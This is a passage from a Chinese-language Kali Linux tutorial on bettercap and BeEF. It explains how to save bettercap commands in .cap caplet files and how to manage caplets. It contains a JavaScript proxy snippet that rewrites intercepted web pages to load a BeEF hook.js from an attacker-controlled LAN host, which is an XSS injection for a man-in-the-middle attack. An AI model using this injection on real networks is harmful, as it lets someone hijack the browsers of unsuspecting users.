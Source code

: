 ```javascript
            res.Body=body.replace(



                '</head>',



               '<script type="text/javascript" src="http://172.20.10.2:3000/hook.js"></script></head>'



            );



            }



        }



}
```

kali 之 beef 的使用：https://blog.csdn.net/whoim_i/article/details/102877616



### 导入 cap 格式 的 命令文件，避免重复输入命令

在 bettercap 中，有一种文件后缀叫 .cap 我们启动 bettercap 的时候可以指定该.cap文件，就可以按照这个文件还原命令。比如随便创建一个 xss.cap 文件，内容如下：

![img](./assets/27a144a777eb46858529924eba3496d7.png)

加载并执行 xss.cap 的命令：root@kali:~# **bettercap -caplet xss.cap**

使用 active 可以详细的查看框架的变量及开启的模块。

在新的版本中还加入了caplets，使用 caplets.update 下载更新后会存储由由开发者编写的各种功能的模块脚本。我们可以通过 caplets.show 来查看有哪些.cap模块。
